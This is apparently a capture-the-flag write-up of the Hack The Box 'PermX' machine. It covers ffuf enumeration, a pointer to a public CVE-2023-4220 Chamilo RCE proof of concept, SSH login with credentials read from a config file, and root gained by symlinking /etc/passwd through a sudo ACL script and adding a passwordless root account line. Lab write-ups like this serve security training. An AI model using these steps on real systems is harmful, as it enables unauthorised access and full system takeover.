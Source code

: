 ```yaml
---
layout: post
title: 'PermX Walkthrough: Conquering Hack The Box Machines "PermX htb"'
date: 20-08-2024
categories: [HackTheBox]
tag: machines
image:
  path: '/55img/permx.png'  
---
```

 ## Introduction

  PermX is a web application penetration testing challenge on HackTheBox, aimed at enhancing cybersecurity skills. The machine features multiple open ports that can be explored using Nmap. Success in this Linux-based challenge requires mastering privilege escalation techniques. Participants may need to obtain an IP address, establish a reverse shell, and navigate security measures. 

## Reconnaissance
 
 __Network Scanning:__ as always, we will do nmap scan to know what is opened ports and it’s services in this machine.as always, we will do nmap scan to know what is opened ports and it’s services in this machine.

 ![](/Images/permx/namp.png)

## Exploration the website

     Visiting the IP address in a browser redirects us to a website named “permx.htb”.


 ![](/Images/permx/oerms.png)

 - i did't found any thing interesting. so i will make directory discovery.

## directory discovery  


 - i will use ffuf tool.

 > ffuf -u http://permx.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt  -mc 200,301,302,401,402,403 -e .php 

 ![](/Images/permx/1fuf.png)

 - no any of this interesting. so i will try to see if we have any subdomain on this site

 > ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.10.11.23 -H "Host: FUZZ.permx.htb" -mc 200,301,307,401,403,405,500

 ![](/Images/permx/2fuf.png)

 -  Lms and www. Also add these to the ```/etc/hosts``` file

 - now we browse ```"lms.permx.htb"```

 ![](/Images/permx/chamilo.png)

 - do some search about ```chamilo lms 1 exploits ``` . we found "CVE-2023-4220"

 ![](/Images/permx/ss.png)

 

## Exploit 

 - go to [github](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc) and follow the steps to do ```RCE```

 ![](/Images/permx/bz1.png)

 ![](/Images/permx/bz2.png)

## User Flag

 - i try to go home and get the flag put."Permission denied"

 ! [](/Images/permx/mtz.png)

 - i will search in the application try to find any interesting data..

 > cd /var/www/chamilo/ ; ls 

 ![](/Images/permx/yu.png)

 ![](/Images/permx/conf0.png) 

 - now i will download and see if i found any __sensitive__ data

 ![](/Images/permx/conf1.png)

 ![](/Images/permx/conf2.png)

 - and BOOM!!

 ![](/Images/permx/databb.png)

 - now try to connect with this data to ssh and use 'mtz' as user

 > ssh mtz@10.10.11.23

 ![](/Images/permx/user.png)

## Privilege Escalation 

 - try "sudo -l"

 ![](/Images/permx/sudo-l.png)

 ![](/Images/permx/aa.png)

 - explore the script 

 ![](/Images/permx/ffq.png)

 - let's try to add new user with root access. link "/etc/passwd"file with any file and give the file read and write permisiion by "acl.sh" script.

 
 * link /etc/passwd by hu1ko file
 > ln -s /etc/passwd /home/mtz/hu1ko   

 * run the script.
 > sudo /opt/acl.sh mtz rw /home/mtz/hu1ko  

 * to see how we will add an new user 
 > cat /etc/passwd                          
 ```` 
 root:x:0:0:root:/root:/bin/bash   <== 
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
 bin:x:2:2:bin:/bin:/usr/sbin/nologin
 sys:x:3:3:sys:/dev:/usr/sbin/nologin
 sync:x:4:65534:sync:/bin:/bin/sync
 games:x:5:60:games:/usr/games:/usr/sbin/nologin
 man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
 lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
 mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
 news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

 ````
 - ask ```chatgpt``` about it .

 ![](/Images/permx/gpt.png)

 - so it will be . "user::0:0:user:/root:/bin/bash"

 > nano hu1ko // to add new user or can use echo 
 
 ![](/Images/permx/hu1.png)

 ![](/Images/permx/roooot.png)

---

![](/Images/permx/1.png)